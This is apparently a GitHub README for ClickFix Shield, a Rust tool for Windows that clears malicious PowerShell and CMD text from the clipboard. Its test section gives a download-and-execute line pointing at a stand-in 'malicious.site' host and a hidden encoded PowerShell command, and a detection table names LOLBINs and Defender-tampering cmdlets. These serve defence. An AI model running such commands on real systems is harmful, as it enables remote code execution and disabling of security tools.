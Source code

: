 🛡️ ClickFix Shield

By Josiah Golden

A lightweight Windows clipboard protection tool built in Rust.
ClickFix Shield detects and blocks suspicious PowerShell or CMD payloads copied to your clipboard —
preventing “ClickFix”-style malvertising attacks before they ever reach your system.


⚙️ What It Does

🧠 Monitors your clipboard for dangerous patterns (PowerShell, CMD, Base64 payloads)

🛑 Automatically clears malicious text before it can be pasted or executed

💾 Logs events to C:\ProgramData\ClickfixShield\shield.log

🪟 Runs silently in the system tray (no console window)

⏸️ Tray menu lets you Pause, Resume, Open Logs, Edit Config, or Exit


🚨 Why It Matters

Modern “ClickFix” and malvertising campaigns trick users into pasting one-liners like:

powershell -nop -w hidden -enc SGVsbG8=


ClickFix Shield intercepts those strings and wipes them before they can run, turning a potential compromise into a harmless copy-paste.


🧩 How It Works

Built in Rust 1.80+

Uses clipboard-win to monitor the Windows clipboard

Detects suspicious patterns via regex

Displays alerts with native Windows APIs (MessageBoxW)

System-tray interface built with tray-icon and tao

Configurable rules stored in JSON (C:\ProgramData\ClickfixShield\config.json)


🧠 Detection Patterns
Category	Examples Matched	Description
LOLBINs	mshta, rundll32, certutil, wmic	Common living-off-the-land binaries used for execution and payload retrieval
PowerShell Abuse	IEX, DownloadString, FromBase64String	Commands used to execute code from memory or the web
Run-box Commands	powershell …, cmd /c …	Paste-and-run attack patterns
Defender Tampering	Set-MpPreference, Add-MpPreference	Attempts to disable or exclude Defender scanning
Encoded Payloads	Long Base64 strings	Obfuscated data often used in malware delivery

You can whitelist safe text patterns in config.json via the allow_regex array.


🧰 Installation & Setup

1️⃣ Download or build the binary
cargo build --release


Copy target\release\clickfix-shield.exe to:
C:\ProgramData\ClickfixShield\clickfix-shield.exe

2️⃣ (Recommended) Register Scheduled Task for Auto-Start

Run PowerShell as Admin:

$exe = "C:\ProgramData\ClickfixShield\clickfix-shield.exe"
$taskName = "ClickFixShield"

if (Get-ScheduledTask -TaskName $taskName -ErrorAction SilentlyContinue) {
    Unregister-ScheduledTask -TaskName $taskName -Confirm:$false
}

$action = New-ScheduledTaskAction -Execute $exe
$trigger = New-ScheduledTaskTrigger -AtLogOn
$principal = New-ScheduledTaskPrincipal -UserId $env:USERNAME -LogonType Interactive -RunLevel Highest
$settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries -Hidden

Register-ScheduledTask -TaskName $taskName -Action $action -Trigger $trigger -Principal $principal -Settings $settings

3️⃣ Run it once
start "" "C:\ProgramData\ClickfixShield\clickfix-shield.exe"


It will appear in your tray and start monitoring instantly.


🧪 Test It

Copy any of these into your clipboard:

powershell -nop -w hidden -enc SGVsbG8=

IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')

cmd /c calc.exe

✅ The clipboard clears, an alert appears, and the event is logged.


⚡ Configuration

File: C:\ProgramData\ClickfixShield\config.json

{
  "allow_regex": [
    "^Hello world$",
    "^.*my-safe-snippet.*$"
  ],
  "poll_ms": 300
}


allow_regex: List of safe patterns to skip

poll_ms: Clipboard polling interval (ms)


📦 Build Info
Field	Value
Language	Rust
Version	0.2.0
Platform	Windows 10 / 11
License	MIT
Author	Josiah Golden (@josiahgolden)


📸 Screenshots (coming soon)

(Add a screenshot of your tray icon and alert popup here.)


🙌 Credits

Created by Josiah Golden (2025)
Built with 🦀 Rust and a mission to make security simpler for everyone.


💬 Connect

LinkedIn: linkedin.com/in/josiahgolden

Youtube: https://youtube.com/@josiahgold3n?si=02n0UaLYue1tVbgk

Instagram: https://www.instagram.com/josiahgold3n/

GitHub: github.com/josiahgolden